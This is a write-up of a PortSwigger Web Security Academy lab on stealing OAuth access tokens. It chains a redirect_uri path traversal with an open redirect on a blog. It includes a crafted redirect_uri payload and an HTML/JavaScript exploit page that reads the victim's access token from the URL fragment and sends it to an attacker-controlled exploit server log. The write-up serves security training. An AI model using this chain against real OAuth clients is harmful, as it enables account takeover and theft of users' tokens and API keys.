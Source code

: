 # Stealing OAuth access tokens via an open redirect

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect), you'll learn: Stealing OAuth access tokens via an open redirect! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

> Note
>  
> You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: `wiener:peter`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042231.png)

In here, we see a link called "My account".

Let's try to login by clicking that link:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042312.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042320.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042331.png)

As you can see, when we clicked on the "My account" link, it'll redirect us to login with a social account, which means this is an OAuth authentication.

In the `/auth` request, there are some parameters:

- `client_id`: `umg56k6htndwh95zhjmgd`
- `redirect_uri`: `https://0a0000b304ad9179c28dc70f00dd002d.web-security-academy.net/oauth-callback`
- `response_type`: `token`
- `nonce`: `-678410678`
- `scope`: `openid profile email`

The `response_type` parameter indicates that **it's using implicit grant type.**

Let's continue the OAuth flow:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042636.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042647.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042736.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042742.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042759.png)

**As you can see, the `/me` GET request has the `apikey`.**

Armed with above information, we can try to modify the `redirect_uri` parameter to leak the `apikey`.

To do so, I'll log out, and send the `/auth` GET request to Burp Suite's Repeater. Then modify the `redirect_uri` parameter to the exploit server:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043143.png)

Hmm... Looks like there are some whitelisted domain in `redirect_uri` parameter?

We can try to bypass it.

For example, using the `@`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043305.png)

Nope.

How about parameter pollution?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043406.png)

No luck.

It seems like we couldn't bypass it.

How about path traversal?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043627.png)

We can!

However, we still couldn't leak the `apikey`. **We need to find another vulnerbility to do that, such as open redirect.**

After poking around the website, I found that in the home page, we can view different posts, and we can navigate to different posts:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044425.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044433.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044448.png)

When we clicked the "Next post" link, **it'll send a GET request to `/post/next` with parameter `path`.**

Let's test for open redirect:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044556.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044610.png)

**It redirects me to any website! So it's vulnerable to open redirect.**

Armed with above information, **we can chain the `redirect_uri` parameter and open redirect vulnerability together!**

```
redirect_uri=https://0a0000b304ad9179c28dc70f00dd002d.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab400c304dc91a2c26dc6f80184009b.exploit-server.net/log
```

**The above payload will set the `redirect_uri` parameter value to `/post/next`, with parameter `path`, and it's value is our exploit server. This allows us to extract the `access_token`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045501.png)

**Then, we can use that `access_token` to send a GET requesto to `/me`, which will finally leak the `apikey`.**

Now, we can test the payload works or not:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045742.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045752.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045801.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045835.png)

It worked!

However, since the OAuth grant type is using implicit, we need to extract the `access_token` via the URL fragment.

**Now, we can craft a payload that extract victim's `access_token`:**
```html
<html>
    <head>
        <title>OAuth-4</title>
    </head>
    <body>
        <script>
            // Check the URL fragment exist or not
            if (document.location.hash == ''){
                // If not exist, redirect to the payload, so we can extract the access_token
                window.location.replace('https://oauth-0ada00a904369151c2bdc54b02480071.web-security-academy.net/auth?client_id=umg56k6htndwh95zhjmgd&redirect_uri=https://0a0000b304ad9179c28dc70f00dd002d.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab400c304dc91a2c26dc6f80184009b.exploit-server.net/exploit&response_type=token&nonce=171654770&scope=openid%20profile%20email');
            } else {
                // Create a new object called urlSearchParams, which extract the URL fragment
                const urlSearchParams = new URLSearchParams(document.location.hash.substr(1));
                // Extract the access_token
                var token = urlSearchParams.get('access_token');

                // Redirect to /log with the access_token value
                window.location.replace('/log?access_token=' + token);
            };
        </script>
    </body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053312.png)

Exploit server access log:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053348.png)

Nice! We got it!

**Finally, we can send a GET request to `/me`, with header `Authorization: Bearer <access_token>`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053458.png)

Nice! Let's submit the `apikey`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053524.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053531.png)

# What we've learned:

1. Stealing OAuth access tokens via an open redirect